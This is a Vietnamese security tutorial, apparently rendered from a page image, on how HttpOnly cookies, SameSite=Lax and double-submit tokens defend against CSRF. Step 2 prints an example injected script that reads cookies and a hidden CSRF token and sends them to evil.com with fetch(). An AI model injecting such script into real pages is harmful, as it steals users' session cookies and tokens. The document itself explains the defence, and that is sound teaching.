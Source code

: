 ### Step 2: Hacker cố gắng đánh cắp CSRF token

```html
<!-- Hacker inject script này: -->
<script>
    // Cố gắng đọc cookie
    var cookies = document.cookie;
    console.log(cookies);
    // → "sessionId=abc123; otherCookie=xyz"
    // →  KHÔNG THẤY "CSRF-TOKEN" vì HttpOnly!
    
    // Cố gắng gửi về server của hacker
    fetch('https://evil.com/steal?cookies=' + document.cookie);
    // →  Chỉ lấy được các cookie KHÔNG có HttpOnly
    
    // Cố gắng đọc hidden input
    var csrfInput = document.getElementById('csrfToken');
    if (csrfInput) {
        var token = csrfInput.value;
        fetch('https://evil.com/steal?token=' + token);
        // →  CÓ THỂ lấy được token từ hidden input!
        // → NHƯNG: Hacker vẫn cần cookie để submit form
        // →  Cookie HttpOnly KHÔNG gửi được cross-origin
    }
</script>
```

### Step 3: Tại sao vẫn an toàn?

**Hacker chỉ lấy được token từ hidden input**
- Hacker biết token: `a3f7e9c2-4b1d-8e5f-9a6c-2d3e4f5a6b7c`
- Hacker tạo form trên evil.com với token này
-  NHƯNG: Browser KHÔNG gửi cookie `CSRF-TOKEN` từ localhost đến evil.com (SameSite=Lax)
-  Server validate: cookieToken = null, submittedToken = "a3f7e9c2-..."
-  null != "a3f7e9c2-..." → CSRF validation FAIL


**Kết luận:**
- HttpOnly cookie chống XSS đánh cắp token qua `document.cookie`
- SameSite=Lax chống CSRF từ cross-origin
- Double-submit pattern đảm bảo cần cả cookie VÀ form data

---



##  Security Features

### 1. **HttpOnly Cookie**
```
Set-Cookie: CSRF-TOKEN=...; HttpOnly
```
-  JavaScript KHÔNG đọc được via `document.cookie`
-  Chống XSS đánh cắp token
-  Nhưng vẫn đọc được từ hidden input 
